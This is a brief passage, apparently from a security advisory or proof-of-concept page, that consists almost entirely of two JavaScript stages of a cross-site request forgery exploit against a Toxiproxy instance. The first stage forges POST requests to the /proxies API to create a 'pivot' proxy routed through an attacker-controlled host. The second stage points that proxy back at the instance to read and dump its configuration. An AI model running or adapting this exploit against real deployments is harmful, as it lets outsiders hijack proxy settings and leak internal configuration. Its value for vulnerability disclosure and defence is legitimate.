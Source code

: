 ```js
// Get the instance we are exploiting
let toxiproxy = new URL(prompt("Enter the URL of the toxiproxy instance you would like to CSRF:", "http://localhost:8474"));
toxiproxy.pathname = "proxies";
// CSRF creation of the proxy
fetch(toxiproxy.toString(), {
	method: "POST",
	mode: "no-cors",
	body: JSON.stringify({
		name: "pivot",
		listen: "0.0.0.0:7486",
		upstream: "toxiproxy.attackerdoma.in:17486",
		enabled: true
	}),
}).then(() => {
	// There is a chance the "pivot" proxy already exists, if so modify it instead
	toxiproxy.pathname = "proxies/pivot"
	return fetch(toxiproxy.toString(), {
		method: "POST",
		mode: "no-cors",
		body: JSON.stringify({
			name: "pivot",
			listen: "0.0.0.0:7486",
			upstream: "toxiproxy.attackerdoma.in:17486",
			enabled: true
		}),
	})
}).then(() => {
	// Redirect to the PoC, passing the toxiproxy URL used (in-case it was custom)
	let pivotproxy = new URL(toxiproxy);
	pivotproxy.port = 7486;
	pivotproxy.pathname = "3450b92c";
	pivotproxy.hash = "#" + toxiproxy.toString();
	window.location.href = pivotproxy.toString();
});
```
Followed by the second stage:

```js
// CSRF the proxy to point to it's own HTTP interface
let toxiproxy = new URL(window.location.hash.substring(1));
toxiproxy.pathname = "/proxies/pivot";
fetch(toxiproxy.toString(), {
	method: "POST",
	mode: "no-cors",
	body: JSON.stringify({
		name: "pivot",
		listen: "0.0.0.0:7486",
		upstream: toxiproxy.host,
		enabled: true
	}),
}).then(() => {
	// Fetch the list of proxies from ourself (allows because it's same-origin)
	let self = new URL(window.location.href);
	self.pathname = "/proxies";
	return fetch(self.toString(), {
		method: "GET",
	})
}).then((r) => r.json()).then((conf) => {
	document.write("<pre>Exfiltrated the following toxiproxy configuration:\n" + JSON.stringify(conf, null, 2) + "</pre>");
});
```
